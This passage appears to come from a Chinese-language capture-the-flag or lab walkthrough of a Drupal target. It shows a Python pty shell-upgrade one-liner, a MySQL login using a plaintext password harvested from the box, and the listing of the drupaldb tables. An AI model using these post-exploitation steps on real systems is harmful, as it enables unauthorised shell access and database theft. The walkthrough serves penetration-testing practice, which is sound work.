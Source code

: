 ```python
python -c "import pty;pty.spawn('/bin/bash')"
```

```plain
1.mysql -udbuser -pR0ck3t  #连接数据库
2.show databases;       #显示数据库列表
```

![QQ图片20220523203937](./images/QQ图片20220523203937.png)

![13~`Y$J55MDZ_`{J8NQ[]68](./images/13`Y$J55MDZ_`{J8NQ[]68.png)

```plain
1.use drupaldb;			#使用drupal数据库
2.show tables;			#显示库中的数据表
```

```plain
+-----------------------------+
| Tables_in_drupaldb          |
+-----------------------------+
| actions                     |
| authmap                     |
| batch                       |
| block                       |
| block_custom                |
| block_node_type             |
| block_role                  |
| blocked_ips                 |
| cache                       |
| cache_block                 |
| cache_bootstrap             |
| cache_field                 |
| cache_filter                |
| cache_form                  |
| cache_image                 |
| cache_menu                  |
| cache_page                  |
| cache_path                  |
| cache_update                |
| cache_views                 |
| cache_views_data            |
| comment                     |
| ctools_css_cache            |
| ctools_object_cache         |
| date_format_locale          |
| date_format_type            |
| date_formats                |
| field_config                |
| field_config_instance       |
| field_data_body             |
```